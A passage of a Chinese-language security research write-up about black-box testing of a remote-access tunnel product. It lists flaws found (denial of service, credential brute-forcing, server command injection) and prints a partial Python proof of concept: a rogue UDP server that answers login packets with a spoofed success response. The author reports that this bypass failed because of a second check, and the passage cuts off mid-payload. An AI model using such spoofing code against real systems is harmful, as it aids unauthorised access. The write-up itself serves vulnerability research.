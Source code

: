   
  
最后就是每次连接就走指定的某隧道就行了，基本的流程摸透了，最后写一下发现的安全问题。  
  
  
  
三  
  
  
**漏洞**  
  
  
刚开始基本测了一周左右，发现了几个安全问题，比较有价值的就是一个拒绝服务还有加密协议的加密密钥来重新实现加密传输就可以暴力猜账号密码，这两天也挖了服务端一个远程命令注入。  
  
  
首先产品说明文档里带了一个产品部署的架构图，这里脱下敏，自己照猫画虎画了一个差不多的图。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GsUeQicZ3wgGAvLIkZUlQ6PZmbZBZUctsCpGicebzILBHta9SoqE8HJyj9HaF37N5PG9cMVOrFk7dw/640?wx_fmt=png "")  
  
  
从完全黑盒测试的角度就只有一个客户端，对于服务端的所有信息除了IP地址外，没有任何其他有用的信息。  
  
## 1.认证机制绕过  
  
  
C到S传输协议UDP，并经过某种加密进行传输，过程中没有协商之类的，看一眼抓包数据：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8GsUeQicZ3wgGAvLIkZUlQ6Pj5Z4QephALXUDiaezWRadjtaa1ibWlD9N4JQ3EVxQYxVngiac63iaBlic0g/640?wx_fmt=jpeg "")  
  
  
可以实现一个S端不管发送什么数据只给他一个成功的状态码就能欺骗到登录成功的界面，这里需要满足两个条件：  
  
1、需要一个成功的状态码数据包或information。  
  
2、没有二次校验的机制。  
  
  
写了一个S端进行了测试，成功绕过了第一层校验到达登陆页面的时候才发现有二次校验的机制，之后二次校验的包来回分析发现了在第一步的校验包中会有一个设备ID的hash码要存入S的数据库中，在二次校验中会对设备HASH码查询来校验第一步的认证，此路是行不通。  
  
  
POC:  
```
#-*- encoding: utf-8 -*-
from socket import *
from time import ctime
import sys
import binascii
 
reload(sys)
sys.setdefaultencoding('utf-8')
 
 
HOST = ''
PORT = 4430
BUFSIZ = 5000
ADDRESS = (HOST, PORT)
 
udpServerSocket = socket(AF_INET, SOCK_DGRAM)
udpServerSocket.bind(ADDRESS)      # 绑定客户端口和地址
 
while True:
    print("waiting for message...")
    data, addr = udpServerSocket.recvfrom(BUFSIZ)
    print("接收到数据：")
    content = "\x66\x00\x00\x00\x00\x8c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x0a" \
                "\x00\x02\x00\x50\x7b\x55\x73\x74\x61\x74\x75\x73\x22\x3a\x31\x30" \
                "\x30\x30\x2c\x22\x72\x65\x73\x70\x6f\x6e\x73\x65\x5f\x62\x6f\x64" \
                "\x79\x22\x3a\x7b\x22\x63\x6f\x64\x65\x74\x6f\x6b\x65\x6e\x22\x3a" \
                "\x22\x31\x66\x34\x33\x32\x34\x63\x33\x36\x38\x31\x63\x34\x33\x35" \
                "\x36\x62\x61\x33\x35\x31\x66\x66\x62\x37\x35\x39\x34\x33\x36\x66" \
                "\x36\x22\x7d\x7d\x00\x03\x00\x04\x00\x00\x00\x00\x00\x00\x00\x00" \
                "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
```